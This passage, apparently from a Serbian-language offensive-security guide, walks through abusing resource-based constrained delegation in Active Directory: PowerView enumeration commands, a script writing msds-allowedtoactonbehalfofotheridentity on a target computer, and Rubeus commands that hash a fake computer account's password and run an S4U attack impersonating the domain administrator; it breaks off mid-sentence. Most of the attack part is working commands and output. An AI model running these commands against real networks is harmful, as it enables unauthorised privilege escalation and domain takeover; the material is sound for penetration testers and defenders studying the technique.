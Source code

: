 ```powershell
Get-DomainUser -TrustedToAuth
```

Ova funkcija će vam prikazati listu korisnika koji su omogućili delegaciju resursa, zajedno sa informacijama o tome kojim računima su poverili autentifikaciju.

Kada pronađete korisnika sa omogućenom delegacijom resursa, možete koristiti funkciju `Get-DomainObjectAcl` da biste dobili informacije o dozvolama za određeni objekat u domenu:

```powershell
Get-DomainObjectAcl -Identity "CN=Computer1,OU=Computers,DC=example,DC=com"
```

Ova funkcija će vam prikazati listu dozvola za određeni objekat, uključujući i informacije o tome ko ima pristup objektu.

Powerview takođe pruža funkcije za manipulaciju ograničenjima delegacije resursa, kao što su `Add-DomainObjectAcl` i `Set-DomainObjectAcl`. Ove funkcije vam omogućavaju da dodate ili promenite dozvole za određeni objekat u domenu.

Korišćenje powerview-a može biti veoma korisno za istraživanje i manipulaciju ograničenjima delegacije resursa u Active Directory okruženju.

```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

### Izvođenje potpunog S4U napada

Prvo, kreirali smo novi objekat računara sa lozinkom `123456`, pa nam je potreban heš te lozinke:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

Ovo će ispisati RC4 i AES heševe za taj nalog.\
Sada se može izvršiti napad:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

Možete generisati više karata tako što ćete samo jednom koristiti parametar `/altservice` u Rubeus-u:
